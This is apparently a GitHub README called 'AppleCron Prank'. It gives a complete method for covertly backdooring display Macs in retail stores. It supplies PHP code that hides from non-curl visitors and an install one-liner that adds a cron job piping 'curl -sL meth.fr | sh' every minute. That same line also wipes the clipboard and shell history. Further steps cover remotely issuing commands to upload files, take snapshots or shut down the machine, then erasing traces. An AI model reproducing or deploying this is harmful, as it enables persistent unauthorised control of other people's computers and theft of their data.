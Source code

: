 #AppleCron Prank

##Original idea

[Antonio Roberts / @hellocatfood](http://www.hellocatfood.com/) suggested an AppleStore prank in [this tweet](https://twitter.com/hellocatfood/status/695605824815788033)


##The idea
Going further, I found out that one can remote control machines using cron jobs, bash scripts and some php pages.

The idea is to create a cron job which will, at a certain interval, retrieve the commands to be executed .

Some examples of what can be achieved:
- Reboot
- Shutdown
- Close Safari or any other app
- Open a web page in the default browser.
- Take a snapshot.
- Upload files
- Add new cron jobs
- Update a cron job
- Remove a cron job
- Remove all cron jobs (in case you want to leave no trace)

##Overview

The first part consist in adding a cron job to a machine.
Then this job will run every x minutes and retrieve the command to be executed.
You can later update the script remotely through a web page and take control/execute scripts on the machine.
The cron job can later be removed remotely, leaving no trace.

Note : I assume that the the index.php is hosted at the root of your domain.
If not the case, change yourdomain.ext for yourdomain.ext/folder in the examples and in the code

###In details

I'm using a multipurpose php page which will serve the scripts.
This page does three things :

1- Send fake information when not accessed via curl
2- Deliver the installation script
3- Deliver other scripts stored in a script.txt file

```
<?php
header("Content-type: text/plain");

// if this page is accessed with anything else than curl, we stop here
if (stripos($_SERVER['HTTP_USER_AGENT'], "curl") === false) {
  exit("Nothing to see here");
} 

// Installation command
if (isset($_GET["i"])) {
       print '(crontab -l; echo "* * * * * curl -sL meth.fr | sh") | crontab -;echo " " | pbcopy;history -c;reset' . PHP_EOL;
}
// Prank commands
else {
    $file = fopen("script.txt", "r") or die("open http://retailpoisoning.tumblr.com/");
    echo fread($file,filesize("script.txt"));
}
?>
```

The installation script is returned when accessing the index.php page via curl, with the ?i argument.
For instance, if the index.php is at the root level of your domain :
yourdomain.ext?i

The command script is returned when accessing the page via curl without any argument :
For instance, if the index.php is at the root level of your domain :
yourdomain.ext

Any request sent from anything else than curl will be filtered out.

##How those scripts get executed on the machine
To achieve that, we use curl and pipe it to either the clipboard or bash

Typing this command ...
```
 curl -sL yourdomain.ext?i | pbcopy
 ```
... will retrieve the following installation script and copy it to the clipboard: 
```
 (crontab -l ; echo " * * * * * curl -s -L yourdomain.ext | sh") | crontab  -; echo "" | pbcopy; history -c; reset
```

Pasting this command will create a cron job executed every minute. The rest of the command deletes the content of the clipboard, clears the Terminal history and resets it.

This cron job will get other scripts (we access the page without the ?i argument) every minute and pipe it to bash for execution.

Starting from here you can do almost anything that doesn't require administrator right (when sudo is not needed), including bash commands, AppleScript commands, etc etc.

The script.txt file can be updated on the fly using the x.php page.
This means once your cron job is running you can change the script (and thus the commands run every minute) from your smartphone.

To avoid this script being indexed or accessible to others, you can set a pass key that you pass as an argument : ie: http://yourdomain.ext/x.php?xyz=abc

The x.php page is just an interface which sends updated commands to the update.php page, in charge of updating the script.txt file :

There are some predefined command but there is also a text field to enter any other command.
Note : you can also update the x.php page if you want to customize it with your own commands and pass key


##How to proceed

First, you need access to the machine to be able to add this cron job.
So head to your local retailler, pick a MacOSX machine and do this :

- Open a Terminal window
- Type this command to copy the install command to the clipboard
```
curl -sL yourdomain.ext?i | pbcopy
```
- Then CTRL+V to execute it
- Exit Terminal
- Move away then use your smartphone (or do it offsite) to launch commands through the x.php page.

Note : be carefull with the command's syntax because when cron cannot execute a script, it will be logged in /var/mail/%username% and thus will leave a trace.

###Remote control

Here is the interface where you can select predefined command or enter new ones.
This will update the script.txt file which will serve the command upon cronjob request.

![Alt text](/screenshot.png?raw=true "Schematic")


##More about cron jobs

Remove all cron jobs
```
crontab -r
```

Append a new job to the existing ones
```
(crontab -l 2>/dev/null; echo " */2 * * * * open fortune.com/2016/01/19/apple-child-labor/") | crontab -
```

Replace cron jobs with a new one
```
(crontab -l | echo " * * * * * open fortune.com/2016/01/19/apple-child-labor/") | crontab -
```

Replace a specific job (ie: the one containing "fortune")
```
(crontab -l 2>/dev/null;  echo "*/4 * * * * http://techcrunch.com/2016/01/19/apple-microsoft-samsung-and-other-tech-firms-implicated-in-child-labor-report/ | grep -v 'fortune.com' | crontab -") | crontab -
```

It may be worth having a look at AppleScripting for more fun.


##Further ideas

This can be used:
- regularly push info from your machine to a server.
- track a stolen Mac.
- prank your friends/colleagues


